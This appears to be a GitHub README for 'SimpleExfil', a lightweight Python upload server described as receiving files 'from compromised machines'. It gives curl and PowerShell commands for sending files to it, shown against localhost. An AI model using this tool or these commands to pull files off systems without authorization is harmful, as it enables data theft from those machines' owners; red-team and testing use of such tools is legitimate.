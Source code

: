 # SimpleExfil

SimpleExfil lets you exfiltrate your files. This server accepts and stores files sent through HTTP POST requests, ideal for operations requiring file uploads from compromised machines or remote systems. It's lightweight, easy to deploy, and listens on a customizable port.

## Requirements

- Python 3.x

## Usage

Start the server by specifying the desired port as an argument. If no port is specified, it defaults to 8000. You can optionally specify the directory where uploaded files will be stored. If omitted, the server uses the current directory or the path provided in the `UPLOAD_DIR` environment variable.

```
python simpleexfil.py [PORT] [UPLOAD_DIR]
```

Alternatively, set the `UPLOAD_DIR` environment variable to control the
destination folder without passing it as an argument.

To upload a file, use `curl` from the command line, PowerShell, or any suitable HTTP client. Example for uploading `example.txt`:

```
curl -F "file=@example.txt" http://127.0.0.1:8000
```
Note that this only works with actual `curl`, so this command might not work in PowerShell.

To upload a file using PowerShell you can use the following (may not be very reliable):
```
(New-Object System.Net.WebClient).UploadFile("http://127.0.0.1:8000", "C:\tmp\example.txt")
```

Server can also be accessed on the browser for a classic upload UI.

### Enhanced Web UI

This tool includes a drag-and-drop interface. After starting the
server, open your browser and navigate to `http://127.0.0.1:8000/` to access the
new UI. Drop a file onto the highlighted area or click to choose a file and it
will be uploaded automatically.

## File Storage Behavior

The server uses the base name of the uploaded file when saving to avoid
directory traversal attacks. If a file with the requested name already
exists, a numerical suffix is appended (e.g. `file.txt`, `file_1.txt`,
`file_2.txt`, ...).
